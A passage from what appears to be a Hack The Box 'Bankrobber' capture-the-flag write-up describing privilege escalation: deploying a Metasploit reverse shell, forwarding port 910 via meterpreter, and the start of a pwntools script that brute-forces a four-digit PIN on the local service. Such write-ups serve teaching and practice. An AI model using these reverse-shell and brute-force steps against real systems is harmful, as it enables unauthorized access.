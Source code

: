 ![](/assets/images/htb-writeup-bankrobber/root1.png)

I also see a `bankv2.exe` file in the system root directory but I can't read it.

![](/assets/images/htb-writeup-bankrobber/root2.png)

I generated an metasploit reverse shell payload, uploaded it then created a port forward for this port:

```
meterpreter > portfwd add -l 910 -p 910 -r 127.0.0.1
[*] Local TCP relay created: :910 <-> 127.0.0.1:910
```

I can reach the application now on port 910 but I don't have a valid PIN:

![](/assets/images/htb-writeup-bankrobber/root3.png)

I tried checking for buffer overflows but couldn't crash the program so I likely have to brute force the PIN first. I made a quick script to brute force the PIN:

```python
#!/usr/bin/python

from pwn import *
import time
import sys

i = int(sys.argv[1])
j = int(sys.argv[2])
while True:
    m = ""
    if i < j:
        pin = str(i).zfill(4)
        p = remote("127.0.0.1", 910)
```